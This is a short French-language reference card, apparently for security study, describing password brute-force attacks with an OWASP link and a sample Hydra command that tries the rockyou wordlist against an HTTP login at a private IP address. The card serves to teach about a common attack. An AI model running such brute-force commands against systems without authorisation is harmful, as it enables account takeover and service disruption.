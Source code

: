 # Brute Force de mots de passe
## COUCHE 7

### Contournement
### Inaccessibilité

#### ATTAQUE = BRUTE FORCE

##### CONFIDENTIALITÉ
##### DISPONIBILITÉ

**Description** :
Tentative systématique de deviner un mot de passe en essayant toutes les combinaisons possibles jusqu'à trouver la bonne.

**Source** : https://owasp.org/www-community/attacks/Brute_force_attack

**Exemple de commande Hydra** :
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 http-get /login
```